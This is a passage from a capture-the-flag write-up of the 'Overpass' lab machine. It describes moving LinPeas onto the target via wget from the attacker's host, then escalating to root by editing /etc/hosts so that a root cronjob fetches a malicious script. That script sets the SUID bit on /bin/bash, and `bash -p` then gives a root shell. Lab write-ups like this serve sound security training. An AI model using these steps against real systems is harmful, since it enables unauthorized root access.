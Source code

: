 For enumerating the system and finding potential attack vectors, I copied `LinPeas` to the target system. For that, I followed these steps:

1. On local machine, go to the location where the `LinPeas` script is located.

2. On local machine, start Python server.

![Python Server](/Overpass/images/Python_Server.png)

3. On the target machine, go to `/tmp` directory.

4. On the target machine, issue `wget http://<IP>:<PORT>/linpeas` command.

![LinPeas Download](/Overpass/images/LinPeas_Download.png)

Run `chmod +x linpeas_linux_amd64` to make it executable.

Linpeas scan of the target system revealed a couple of interesting things:

1. A cronjob, where the root user downloads `buildscript.sh` from `Overpass.thm` and pipes it to bash.

![Root Cronjob](/Overpass/images/Root_Cronjob.png)

2. An `/etc/hosts` file, ***editable*** by current user.

![Editable Hosts](/Overpass/images/Editable_Hosts.png)

## System Exploitation

1. Root user gets buildscript.sh from a `/downloads/source` directory from `overpass.thm` and pipes it to bash.
2. Since I can edit `/etc/hosts` file, I can bind ***my*** IP with overpass.thm domain.
3. On my local machine I wil create the `/downloads/src` directory.
4. In this directory I will place my malicious script.
5. My malicious script will add SUID bit to `/bin/bash` executable - `chmod +s /bin/bash`.
6. Wait for the next minute to start.
7. SUID bit is added to the `/bin/bash` executable.
8. Running `/bin/bash -p` command gives root shell.
9. Navigating to `/root` directory and reading `root.txt` file gives root flag.
